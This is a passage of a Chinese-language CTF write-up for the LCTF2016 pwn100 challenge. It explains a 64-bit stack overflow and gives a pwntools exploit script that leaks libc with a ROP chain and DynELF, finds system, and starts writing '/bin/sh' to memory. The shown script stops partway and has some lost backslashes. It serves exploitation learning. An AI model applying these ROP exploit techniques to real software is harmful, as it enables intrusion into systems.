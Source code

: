 ```
```



**LCTF2016-pwn100**



本题是64位linux下的二进制程序，无cookie，也存在很明显的栈溢出漏洞，且可以循环泄露，符合我们使用DynELF的条件，但和上一题相比，存在两处差异：<br style="text-align: left">

**1）64位linux下的函数需要通过rop链将参数传入寄存器，而不是依靠栈布局；**

**2）puts函数与write函数不同，不能指定输出字符串的长度。**

根据上文给出的解决方法，构造利用脚本如下。

```
from pwn import *
import binascii
p = process("./pwn100")
elf = ELF("./pwn100")
readplt = elf.symbols['read']
readgot = elf.got['read']
putsplt = elf.symbols['puts']
putsgot = elf.got['puts']
mainaddress =   0x4006b8
startaddress =   0x400550
poprdi =     0x400763
pop6address  =  0x40075a   
movcalladdress = 0x400740
waddress =     0x601000 #可写的地址，bss段地址在我这里好像不行，所以选了一个别的地址，应该只要不是readonly的地址都可以  
def leak(address):
  count = 0
  data = ''
  payload = "A" * 64 + "A" * 8
  payload += p64(poprdi) + p64(address)
  payload += p64(putsplt)
  payload += p64(startaddress)
  payload = payload.ljust(200, "B")
  p.send(payload)
  print p.recvuntil('bye~n')
  up = ""
  while True:
    c = p.recv(numb=1, timeout=0.5)
    count += 1
    if up == 'n' and c == "":
      data = data[:-1]
      data += "x00"
      break
    else:
      data += c
    up = c
  data = data[:4]
  log.info("%#x =&gt; %s" % (address, (data or '').encode('hex')))
  return data
d = DynELF(leak, elf=ELF('./pwn100'))
systemAddress = d.lookup('__libc_system', 'libc')
print "systemAddress:", hex(systemAddress)
print "-----------write /bin/sh to bss--------------"
payload1 = "A" * 64 + "A" * 8
payload1 += p64(pop6address) + p64(0) + p64(1) + p64(readgot) + p64(8) + p64(waddress) + p64(0)
payload1 += p64(movcalladdress)
payload1 += 'x00'*56
payload1 += p64(startaddress)
payload1 =  payload1.ljust(200, "B")
p.send(payload1)
print p.recvuntil('bye~n')
```